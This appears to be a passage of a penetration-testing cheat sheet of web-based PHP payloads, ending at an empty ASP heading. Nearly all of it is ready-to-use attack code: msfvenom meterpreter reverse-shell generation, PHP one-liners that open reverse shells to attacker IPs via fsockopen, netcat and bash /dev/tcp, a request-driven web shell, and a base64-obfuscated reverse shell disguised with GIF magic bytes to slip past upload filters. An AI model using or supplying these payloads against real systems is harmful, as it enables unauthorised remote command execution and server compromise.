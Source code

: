 ### <ins>Web-Based Payloads</ins>

### PHP Checker
https://github.com/teambi0s/dfunc-bypasser
```
<?php phpinfo(); ?>

python dfunc-bypasser.py --file /home/kali/Downloads/miinfo.html
```

#### **PHP**

https://github.com/ivan-sincek/php-reverse-shell

Here: /opt/php-reverse-shell

##### Reverse shel**l**

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

```

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
<?php

system('nc.exe -e cmd.exe 10.10.10.5 4444')

?>

or


<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.45.204/4444 0>&1'");


```

```
<?php system($_REQUEST["cmd"]); ?>
```

```php

You could also encode this:

    echo "sh -i >& /dev/tcp/192.168.1.75/8081 0>&1" | base64 -w 0


Then do this with GIF Magic Bytes

     GIF89a;
    <?php
      system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjc1LzgwODEgMD4mMQo= | base64 -d | bash");
    ?>
```
#### ASP/x

